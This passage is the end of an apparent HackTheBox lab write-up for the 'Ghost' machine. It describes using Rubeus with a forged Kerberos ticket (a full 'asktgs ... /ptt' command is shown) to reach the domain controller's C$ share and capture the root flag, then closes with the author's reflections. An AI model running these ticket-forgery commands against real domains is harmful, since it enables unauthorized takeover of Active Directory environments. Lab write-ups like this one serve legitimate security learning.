```


The final stage of the exploitation, is to use **rubeus** to use the forged ticket and make a request to the Domain Controller in hopes that it will accept the ticket and allow us to access the file system of the DC.

I uploaded a pre-compiled binary of **rubeus** to the target and ran this command:

```
powershell -c ".\Rubeus.exe asktgs /dc:dc01.ghost.htb /service:cifs/dc01.ghost.htb /ticket:forged.kirbi /nowrap /ptt"
```


After using the forged ticket with **rubeus**, I was able to use the **PowerJoker** shell to get full access to the Domain Controllers filesystem by simply changing directory into it as a network share:\
`cd \\dc01.ghost.htb\c$`


And finally, get the root flag stored in the **Administrator's** desktop...


## Final Words
This was genuinely one of the most fun HackTheBox machines I have done. It was so unique, requiring me to learn about so many new techniques and how to use lots of new tools. I really loved doing this machine, and although it may have taken me a while to figure out certain parts of it. It was definitely worth it. I would 100% recommend you give this box a go yourself!
